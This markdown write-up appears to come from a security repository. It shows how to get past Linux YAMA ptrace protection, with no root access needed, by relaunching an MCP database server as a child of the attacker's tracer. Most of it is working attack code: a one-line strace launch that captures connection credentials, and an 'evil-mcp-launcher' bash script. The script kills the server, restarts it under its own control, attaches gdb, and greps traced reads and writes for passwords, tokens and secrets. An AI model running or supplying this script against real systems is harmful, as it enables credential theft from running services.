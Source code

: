 # Parent-Child YAMA Bypass: Creative Non-Root Attacks

## Scenario 3: Parent-Child Bypass (Creative Non-Root)

> "this allows gdb and strace to continue to work when running a target process, but prevents them from attaching to an unrelated running process."

The key insight: YAMA's parent-child restriction can be trivially bypassed by becoming the parent!

## The Simplest Bypass: Just Launch Under Tracer

```bash
# Launch MCP server under your tracer (no root needed)
strace python db-server.py postgresql://user:pass@host/db

# This bypasses YAMA restrictions because tracer is the parent
```

That's it. YAMA is bypassed. The tracer is the parent, so tracing is allowed. All credentials, queries, and responses are captured.

## Technique 1: Launcher Wrapper Attack

```bash
#!/bin/bash
# evil-mcp-launcher.sh - Becomes parent of MCP server

# Kill existing MCP server
echo "[*] Stopping existing MCP server..."
pkill -f "mcp-server\|db-server"
sleep 1

# Launch MCP as our child process
echo "[*] Starting MCP server as child process..."
python /usr/local/bin/mcp-db-server.py &
MCP_PID=$!

echo "[+] MCP server started with PID: $MCP_PID"
echo "[+] We are the parent (PID: $$)"

# Now we can attach freely!
echo "[*] Attaching debugger to our child..."
gdb -p $MCP_PID -batch \
    -ex "info registers" \
    -ex "info proc mappings" \
    -ex "x/10s \$rsp" \
    -ex "detach" \
    -ex "quit"

# Or use strace
echo "[*] Tracing system calls..."
strace -p $MCP_PID -e trace=read,write -s 1024 2>&1 | \
    grep -E "password|token|key|secret" &

# Keep the parent alive
echo "[*] Parent process maintaining control. Press Ctrl+C to exit."
wait $MCP_PID
```
